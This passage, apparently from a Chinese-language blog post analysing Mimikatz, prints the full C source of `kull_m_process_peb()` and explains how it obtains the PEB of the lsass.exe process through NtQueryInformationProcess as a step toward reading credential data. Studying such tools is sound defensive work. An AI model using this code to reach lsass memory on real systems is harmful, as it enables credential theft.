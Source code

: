 在 `kull_m_process_getVeryBasicModuleInformations()` 函数内部，将调用 `kull_m_process_peb()` 函数，用于获取 lsass.exe 进程的 PEB 结构。

### Get PEB Structure

跟进 `kull_m_process_peb()` 函数：

- kull\_m\_process.c

```c++
BOOL kull_m_process_peb(PKULL_M_MEMORY_HANDLE memory, PPEB pPeb, BOOL isWOW)
{
    BOOL status = FALSE;
    PROCESS_BASIC_INFORMATION processInformations;
    HANDLE hProcess = (memory-&gt;type == KULL_M_MEMORY_TYPE_PROCESS) ? memory-&gt;pHandleProcess-&gt;hProcess : GetCurrentProcess();
    KULL_M_MEMORY_ADDRESS aBuffer = {pPeb, &amp;KULL_M_MEMORY_GLOBAL_OWN_HANDLE};
    KULL_M_MEMORY_ADDRESS aProcess= {NULL, memory};
    PROCESSINFOCLASS info;
    ULONG szPeb, szBuffer, szInfos;
    LPVOID buffer;

#if defined(_M_X64) || defined(_M_ARM64) // TODO:ARM64
    if(isWOW)
    {
        info = ProcessWow64Information;
        szBuffer = sizeof(processInformations.PebBaseAddress);
        buffer = &amp;processInformations.PebBaseAddress;
        szPeb = sizeof(PEB_F32);
    }
    else
    {
#endif
        info = ProcessBasicInformation;
        szBuffer = sizeof(processInformations);
        buffer = &amp;processInformations;
        szPeb = sizeof(PEB);
#if defined(_M_X64) || defined(_M_ARM64) // TODO:ARM64
    }
#endif

    switch(memory-&gt;type)
    {
#if !defined(MIMIKATZ_W2000_SUPPORT)
    case KULL_M_MEMORY_TYPE_OWN:
        if(!isWOW)
        {
            *pPeb = *RtlGetCurrentPeb();
            status = TRUE;
            break;
        }
#endif
    case KULL_M_MEMORY_TYPE_PROCESS:
        // 通过 NtQueryInformationProcess 函数获取 lsass.exe 进程的信息，并将其写入 buffer 中
        if(NT_SUCCESS(NtQueryInformationProcess(hProcess, info, buffer, szBuffer, &amp;szInfos)) &amp;&amp; (szInfos == szBuffer) &amp;&amp; processInformations.PebBaseAddress)
        {
            aProcess.address = processInformations.PebBaseAddress;
            status = kull_m_memory_copy(&amp;aBuffer, &amp;aProcess, szPeb);
        }
        break;
    }
    return status;
}
```